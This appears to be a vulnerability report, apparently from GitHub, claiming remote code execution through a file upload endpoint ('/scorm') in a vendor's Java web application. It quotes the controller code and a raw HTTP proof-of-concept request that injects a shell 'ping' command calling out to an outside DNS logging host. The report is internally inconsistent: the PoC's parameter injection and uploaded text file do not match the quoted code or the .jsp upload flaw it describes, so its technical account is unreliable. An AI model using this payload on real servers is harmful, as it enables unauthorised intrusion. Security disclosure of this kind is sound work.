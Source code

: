 

![image-20250225202657195](./assets/image-20250225202657195.png)

![image-20250225202711290](./assets/image-20250225202711290.png)

![image-20250225202748153](./assets/image-20250225202748153.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:  Remote Code Execution (RCE) via File Upload

### Summary:
The UploadImageController.java and FileUtil.java files in the application contain a vulnerability that can be exploited to achieve Remote Code Execution (RCE) through a crafted file upload request.

### Affected Endpoint:
`/scorm`

### Vulnerability Type:
Remote Code Execution (RCE)

### Vulnerable Code:
```java
   @RequestMapping({"/scorm"})
   @ResponseBody
   public String scorm(HttpServletRequest request, HttpServletResponse response) {
      try {
         MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
         MultipartFile imgFile = multipartRequest.getFile("fileupload");
         if (imgFile.getName().endsWith(".jsp")) {
            return null;
         } else {
            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveScormZipFile(imgFile, paths);
            logger.info("++++upload img return:" + json.get("url").getAsString());
            return json.get("url").getAsString();
         }
      } catch (Exception var7) {
         logger.error("goswf error", var7);
         return null;
      }
   }

```

### Proof of Concept (PoC):
```plaintext
POST /scorm?param=;ping 7b8f93d0.log.dnslog.myfw.us.; HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update.txt"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20250225210440260](./assets/image-20250225210440260.png)

### Impact:

An attacker can upload a malicious file with a `.jsp` extension, which could lead to the execution of arbitrary code on the server. This could result in data theft, server compromise, and other serious security breaches.

### Recommendation:
1. Validate file extensions and content types to ensure that only safe file types are uploaded.
2. Implement proper input validation and sanitation to prevent code injection attacks.
3. Consider implementing a Content Security Policy (CSP) to restrict the sources from which content can be loaded on your web application.

### Conclusion:
The vulnerability in the code allows for potential Remote Code Execution (RCE) through malicious file uploads. It is crucial to address this issue promptly to prevent unauthorized access and protect the application and its users from security risks.

### References:
- OWASP File Upload Security: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Multipart File Upload in Spring: https://spring.io/guides/gs/uploading-files/
